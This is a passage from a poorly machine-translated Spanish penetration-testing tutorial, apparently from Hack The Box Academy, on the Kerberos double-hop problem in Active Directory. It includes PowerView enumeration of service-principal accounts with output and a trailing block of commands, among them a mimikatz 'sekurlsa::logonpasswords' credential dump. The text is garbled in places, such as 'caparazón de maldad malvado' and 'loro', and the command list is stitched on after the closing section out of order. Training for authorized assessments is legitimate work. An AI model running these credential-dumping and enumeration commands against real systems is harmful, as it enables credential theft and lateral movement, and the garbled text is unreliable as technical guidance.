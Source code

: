 Ahora podemos ejecutar herramientas como PowerView sin tener que crear un nuevo objeto PSCredential.

  Problema de "doble salto" de Kerberos

```powershell-session
[DEV01]: PS C:\Users\Public> get-domainuser -spn | select samaccountname

samaccountname
--------------
azureconnect
backupjob
krbtgt
mssqlsvc
sqltest
sqlqa
sqldev
mssqladm
svc_sql
sqlprod
sapsso
sapvc
vmwarescvc
```

Nota: no podemos usar`Register-PSSessionConfiguration`De un caparazón de maldad malvado porque no podremos obtener la ventana emergente de las credenciales. Además, si intentamos ejecutar esto configurando primero un objeto PSCredential y luego intentando ejecutar el comando pasando credenciales como`-RunAsCredential $Cred`, recibiremos un error porque solo podemos usar`RunAs`desde una terminal de PowerShell elevada. Por lo tanto, este método no funcionará a través de una sesión Evil-WinRM, ya que requiere acceso de GUI y una consola PowerShell adecuada. Además, en nuestras pruebas, no pudimos lograr que este método funcione desde PowerShell en un loro o host de ataque de Ubuntu debido a ciertas limitaciones sobre cómo PowerShell en Linux funciona con las credenciales de Kerberos. Este método sigue siendo altamente efectivo si estamos probando desde un host de ataque de Windows y tenemos un conjunto de credenciales o comprometer un host y puede conectarse a través de RDP para usarlo como un "host de salto" para montar más ataques contra hosts en el entorno. .

También podemos usar otros métodos como CredsSP, reenvío de puertos o inyectar en un proceso que se ejecuta en el contexto de un usuario objetivo (proceso de sacrificio) que no cubriremos aquí.

---

## Envolver

En esta sección, hemos visto cómo superar el problema de "doble salto" de Kerberos cuando trabaja con WinRM en un entorno publicitario. Nos encontraremos con esto a menudo durante nuestras evaluaciones, por lo que debemos comprender el problema y tener ciertas tácticas en nuestra caja de herramientas para evitar perder el tiempo.

La siguiente sección cubrirá otras formas de aumentar los privilegios y moverse lateralmente en un dominio una vez que tengamos credenciales válidas utilizando diversas vulnerabilidades críticas identificadas durante 2021.

[Anterior](https://academy.hackthebox.com/module/143/section/1275)

[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> Import-Module .\PowerView.ps1
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> get-domainuser -spn | select samaccountname
[DEV01]: PS C:\Users\backupadm\Documents> klist